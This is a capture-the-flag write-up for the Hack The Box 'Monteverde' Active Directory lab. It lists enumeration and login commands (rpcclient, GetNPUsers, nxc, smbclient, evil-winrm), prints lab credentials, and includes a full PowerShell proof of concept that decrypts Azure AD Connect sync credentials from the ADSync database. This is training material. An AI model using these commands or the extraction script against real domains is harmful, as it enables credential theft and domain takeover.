 # Monteverde \[Windows AD Medium]

## Report

With a userlist from rpcclient and no other leads, the user 'SABatchJobs' has the same username as well as password. Further SMB access reveals creds for user 'mhope'

This user is part of a role that performs Azure AD Sync, a google search provides the required script and parameters required for the SQL connection from Powershell. This outputs the username and password used by the Domain Controller

## Cheatsheet

```
rpcclient -U '' -N 10.10.10.172
queryusergroups 0x641
querygroup 0xa29

python3 GetNPUsers.py megabank.local/ -dc-ip 10.10.10.172 -usersfile ~/htb/rooms/monteverde/userlist.ldap

nxc smb 10.10.11.172 -u SABatchJobs -p SABatchJobs --shares
smbclient //10.10.10.172/users$ -U SABatchJobs
get azure.xml
evil-winrm -i megabank.local -u mhope -p 4n0therD4y@n0th3r$
whoami /priv /groups
systeminfo
./SharpHound.exe
cd "Program Files"
C:\Program Files\Microsoft SQL Server\110\Tools\Binn> .\SQLCMD.exe -q "select name from sys.databases;"
```

```
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
#$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)

```

## Loot

### Creds

Same username used as password

SABatchJobs:SABatchJobs

mhope:4n0therD4y@n0th3r$

### Proof

{% embed url="https://blog.xpnsec.com/azuread-connect-for-redteam/" %}

{% embed url="https://www.hackingarticles.in/active-directory-enumeration-rpcclient/" %}

